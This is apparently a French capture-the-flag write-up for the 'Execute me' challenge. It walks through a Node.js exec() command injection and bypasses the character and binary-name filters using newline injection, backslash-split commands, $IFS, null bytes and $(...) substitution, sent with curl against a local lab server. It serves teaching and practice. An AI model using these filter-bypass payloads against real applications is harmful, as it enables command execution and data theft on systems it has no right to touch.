# Writeup 🌶️🌶️ Execute me

Une application nodeJS qui affiche un message avec le pseudo passé en paramètre d'un exécutable.

Cela ressemble à une injection de commande, mais un chouïa compliqué. 

## Analyse du code

Ce que l'on remarque immédiatement, c'est l'exécution de commande avec un paramètre utilisateur :

```js
        // ...
        const player = req.query.player || 'anon'
        // ...
        const quote = exec(`/usr/bin/barbhack This dude _${player}_ thinks he can still solve this challenge at \`date +"%I:%M:%S %p"\`...`)
});
```

Malheureusement, il y a plusieurs mitigations :
1. Les caractères suivants sont interdits : `'&#;,``:%|*?~^-=<>[]{}/ \t`
2. Le pseudo ne peut pas contenir le nom d'un binaire présent dans `/bin`
3. Le pseudo doit avoir une longueur maximale de 20 caractères.

## Exploitation

_Plusieurs solutions différentes sont possibles_

En suivant les astuces [Bypass Linux Restrictions](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions), on peut progressivement contourner les mitigations.

Dans les mitigations mises en place, on remarque que les caractères `()$"\\n` ne sont pas interdits.

Commençons par lister les fichier en faisant un retour à la ligne (`%0A`) et en contournant le nom des binaires interdits avec un `\`:

```console
pun@ctf:~$ curl 'http://localhost:45002/taunt?player=%0Als'
Illegal: potential attack.

pun@ctf:~$ curl 'http://localhost:45002/taunt?player=%0Al\s'
/bin/sh: 2: ls_: not found
```

Dans la commande qui est exécutée, le caractère `_` est concaténé directement à notre injection. On peut ajouter un autre retour à la ligne ou tout simplement un null byte :

```console
pun@ctf:~$ curl 'http://localhost:45002/taunt?player=%0Al\s%00'
(...)
flag.here
node_modules
webapp.js
```

On a le nom du fichier qui contient le flag, il nous reste qu'a l'afficher avec `cat`. Cependant, les espaces sont interdits mais contournable avec la variable `$IFS`:

```console
pun@ctf:~$ curl 'http://localhost:45002/taunt?player=%0Aca\t$IFS\flag.here%00'
(...)
brb{B4sH_tr1cks_AR3_fUn!}
```

## Solutions alternatives

**Parmi les personnes qui ont pu tester ce challenge, [@Driikolu](https://x.com/driikolu) a trouvé la solution la plus courte (14 caractères). Si vous trouvez plus court, n'hésitez pas à partager !**

```
# 17 caracères
pun@ctf:~$ curl 'http://localhost:45002/taunt?player=$(ca\t$IFS$(l\s))' # $(cat $(ls))
 _________________________________________
/ This dude                               \
| _brb{B4sH_tr1cks_AR3_fUn!}const app =   |
(...)

# 14 caractères
pun@ctf:~$ curl 'http://localhost:45002/taunt?player=%0As\h$IFS$(l\s)' # \n sh $(ls)
 _____________
< This dude _ >
 -------------
           \
            \
             \  *:                                       :*        
                +%                                         #+       
                #%-                                       :%#       
                *@#:                                     :#@*       
                :@@@#:                                 :#@@       
                 -@@@@@@*-         -*@@@#-         -*@@@@@@=        
                  :#@@@@@@@@@#*#%@@@@@@@@@@@%#*#@@@@@@@@@#:         
                    :+@@@@@@%#@@@@@@@@@@@@@@@@@%%@@@@@:           
                        -#@@%%@@@@@@@@@@@@@@@@@%%@@#-               
                             :*@@@@@@@@@@@@@@@*:                    
                             :#@@@@@@@@@@@@@@@%:                    
                             :::%@@@@@%@@@@@%:::                    
                              = -%@@@%#%@@@%- +                     
                              ==*@%@@@#@%@%@#==                     
                                %@@#%@#@%#@@%                       
                                =@@@%@#@%@@@=                       
                                :*@@*%@*:                       
                                 ***:%*%:**#                        
                                 :=# -*- *+:                        
                                  :@ :=: %:                         
                                   %==+==%                          
                                   =%%:%%+                          
                                    -- --                           
 _______                      __        __    __                      __       
/       \                    /  |      /  |  /  |                    /  |      
$$$$$$$  | ______    ______  $$ |____  $$ |  $$ |  ______    _______ $$ |   __ 
$$ |__$$ |/      \  /      \ $$      \ $$ |__$$ | /      \  /       |$$ |  /  |
$$    $$< $$$$$$  |/$$$$$$  |$$$$$$$  |$$    $$ | $$$$$$  |/$$$$$$$/ $$ |_/$$/ 
$$$$$$$  |/    $$ |$$ |  $$/ $$ |  $$ |$$$$$$$$ | /    $$ |$$ |      $$   $$<  
$$ |__$$ /$$$$$$$ |$$ |      $$ |__$$ |$$ |  $$ |/$$$$$$$ |$$ _____ $$$$$$  \ 
$$    $$/$$    $$ |$$ |      $$    $$/ $$ |  $$ |$$    $$ |$$       |$$ | $$  |
$$$$$$$/  $$$$$$$/ $$/       $$$$$$$/  $$/   $$/  $$$$$$$/  $$$$$$$/ $$/   $$/ 

flag.here: 1: flag.here: brb{B4sH_tr1cks_AR3_fUn!}: not found

```
